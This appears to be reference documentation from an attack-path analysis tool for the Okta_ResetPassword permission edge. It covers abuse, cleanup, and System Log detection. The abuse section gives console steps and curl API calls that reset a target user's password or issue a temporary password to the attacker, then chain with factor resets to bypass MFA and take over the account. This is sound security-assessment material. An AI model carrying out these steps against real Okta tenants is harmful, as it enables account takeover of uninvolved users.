


## General Information

The traversable Okta_ResetPassword edges represent custom role permissions that allow a principal (user, group, or application) to reset passwords or temporary credentials for scoped Okta users. These edges are created when a custom role includes password management permissions such as `okta.users.credentials.resetPassword`, `okta.users.credentials.manage`, `okta.users.credentials.manageTemporaryAccessCode`, or `okta.users.manage`.



The edge is calculated based on custom role scoping.



## Abuse Info

An attacker who controls the source principal can reset or expire the destination user's Okta password. This can become account takeover when the attacker obtains the reset link, captures a temporary password, or pairs the password reset with a factor-reset path. The edge may originate from a user, a group with the custom role assignment, or a service application/client with the custom admin role assignment.

For a user source, sign in to the Okta Admin Console as that user. For a group source, compromise any member of the source group and sign in as that member. For an application source, authenticate as the service app or client and use an OAuth access token with the management scopes granted by the role assignment.

Using the Admin Console:

1. Authenticate to Okta as the source user, as a member of the source group, or as the source service application.
2. Open **Directory** > **People** and select the destination user from the edge.
3. Use the password action available to the delegated admin role, such as reset password, expire password, or set a temporary password.
4. Capture the reset URL, one-time token, or temporary password if Okta returns it to the admin instead of emailing it to the user.
5. If MFA blocks sign-in, combine this edge with `Okta_ResetFactors`, `Okta_HelpDeskAdmin`, a known enrolled factor, or another path that lets the attacker satisfy MFA.
6. Complete the recovery or next-login flow as the destination user, enroll attacker-controlled authenticators if prompted, and use the user's Okta, application, or admin access.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, and the destination user ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_USER_ID="00u..."
    ```

2. Reset the destination user's password and return the recovery artifact to the caller instead of emailing it to the user.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=false&revokeSessions=true"
    ```

    If using OAuth instead of an SSWS token, replace the authorization header with `Authorization: Bearer $OKTA_ACCESS_TOKEN`.

3. If the role includes temporary-password capability, expire the current password and ask Okta to create a temporary password.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/expire_password_with_temp_password?revokeSessions=true"
    ```

4. Use the returned reset URL, one-time token, or `tempPassword` to complete sign-in as the destination user.
5. Verify takeover by querying the user status or by launching an application as the destination user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | jq '{id, status, login: .profile.login, passwordChanged}'
    ```

## Cleanup after Abuse

Cleanup removes authenticator changes made during takeover, forces legitimate password recovery for the destination user, and revokes temporary credentials, recovery links, sessions, and tokens.

Cleanup using Admin Console:

1. Open **Directory** > **People** and select the destination user.
2. Remove any attacker-controlled authenticators enrolled during the operation.
3. Start a legitimate password reset for the user and require the user to choose a new password.
4. Clear the user's active Okta sessions.
5. Confirm the user can sign in with expected authenticators and no attacker-controlled factors remain.

Cleanup using API:

1. List the user's enrolled factors and identify any factor enrolled during the abuse window.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/factors"
    ```

2. Remove attacker-controlled factors.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/factors/$FACTOR_ID"
    ```

3. Start a legitimate reset that emails the user and revokes existing sessions.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=true&revokeSessions=true"
    ```

4. Clear remaining Okta sessions, OAuth tokens, and remembered devices.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/sessions?oauthTokens=true&forgetDevices=true"
    ```

5. Verify the user is no longer in `RECOVERY` because of the attacker-controlled reset flow and that only expected authenticators remain.

## Opsec Considerations

Password reset and temporary-password abuse is visible in the Okta System Log. Relevant events include `user.account.reset_password`, `user.account.expire_password`, `user.session.clear`, `user.session.start`, and, when MFA is changed during the same path, `user.mfa.factor.reset_all`, `user.mfa.factor.deactivate`, and `user.mfa.factor.activate`.

The API path records the caller, client, source IP, request URI, target user, and whether sessions were revoked. A password reset followed by factor reset, new factor enrollment, admin console access, or sign-in from an unusual network is a high-signal account takeover pattern.

## References

- [Okta User Credentials API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserCred/)
- [Okta User Lifecycle API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserLifecycle/)
- [Okta User Factors API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserFactor/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta custom role permissions](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
